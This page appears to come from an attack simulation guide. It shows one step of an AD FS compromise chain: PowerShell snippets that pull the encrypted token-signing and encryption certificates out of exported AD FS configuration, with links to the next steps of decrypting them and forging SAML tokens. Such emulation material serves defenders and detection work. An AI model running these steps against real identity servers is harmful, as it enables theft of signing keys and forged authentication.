

# Export Active Directory Federation Services (AD FS) Certificates in Encrypted Format

After exporting the configuration settings of the AD FS database, a threat actor would use it to extract sensitive information such as certificates (Token signing and encryption) in an encrypted format which can later be decrypted and used for further actions (e.g. [Forge SAML tokens](signSAMLToken.md)).

## Preconditions
* Endpoint: ADFS01 or WORKSTATION6
    * Even when this step would happen outside of the organization, we can use the same PowerShell session on one of the endpoints where we [exported the AD FS configuration settings](exportADFSConfigurationSettings.md) from to go through the simulation steps.
    * AD FS Configuration Settings
        * The output from the previous step (`XML strings` object or `Microsoft.IdentityServer.PolicyModel.Configuration.ContractObject` object) is saved in the variable `$settings`. Use it in the PowerShell snippets below.

## AD FS Token Signing Certificate

### XML String Object

```PowerShell
[xml]$xml=$settings
$encPfx=$xml.ServiceSettingsData.SecurityTokenService.AdditionalSigningTokens.CertificateReference.EncryptedPfx
$encPfxBytes=[System.Convert]::FromBase64String($encPfx)
$encPfxBytes | Format-Hex
```



## AD FS Token Encryption Certificate

### XML String Object

```PowerShell
[xml]$xml=$settings
$encPfx=$xml.ServiceSettingsData.SecurityTokenService.AdditionalEncryptionTokens.CertificateReference.EncryptedPfx
$encPfxBytes=[System.Convert]::FromBase64String($encPfx)
$encPfxBytes | Format-Hex
```

## Output

Use the variable `$encPfx` for the next step where we [decrypt the AD FS certificates](decryptADFSCertificates.md). Remember that you also have to [get the AD FS DKM master key value](exportADFSDKMMasterKeyFromDC.md) from the domain controller to decrypt the certificates.

## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)